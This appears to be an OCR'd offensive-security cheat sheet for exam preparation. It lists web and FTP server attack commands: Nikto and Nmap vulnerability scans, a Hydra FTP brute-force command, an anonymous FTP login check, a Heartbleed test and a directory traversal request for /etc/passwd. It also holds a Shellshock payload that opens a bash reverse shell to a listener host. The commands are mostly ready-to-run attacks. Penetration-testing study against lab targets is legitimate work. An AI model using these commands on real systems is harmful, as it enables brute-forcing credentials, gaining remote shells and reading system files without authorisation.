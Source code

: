 Nikto Deep Scan

```
nikto -h http://10.10.10.10 -Tuning xb -o nikto_scan.txt
```

Nmap Web Vuln Scan

```
nmap --script=http-vuln* 10.10.10.10 -p 80,443
```

  

### FTP Server Attacks (Exam Favorite)

Brute Force with Hydra
```
hydra -L users.txt -P passwords.txt ftp://10.10.10.10 -t 4 -vV
```

Anonymous Login Check

```
ftp 10.10.10.10
```

```
Username: anonymous
```

```
Password: anonymous@
```

### Web Server Exploitation

Shellshock Exploit

```
curl -H "User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.10.10/4444 0>&1" http://vulnerable-site.com/cgi-bin/test.cgi
```

Heartbleed Test

```
nmap -p 443 --script=ssl-heartbleed 10.10.10.10
```

### Web Server Misconfigurations

Directory Traversal
```
curl http://10.10.10.10/../../../../etc/passwd
```

HTTP Methods Enumeration

```
nmap --script=http-methods 10.10.10.10
```
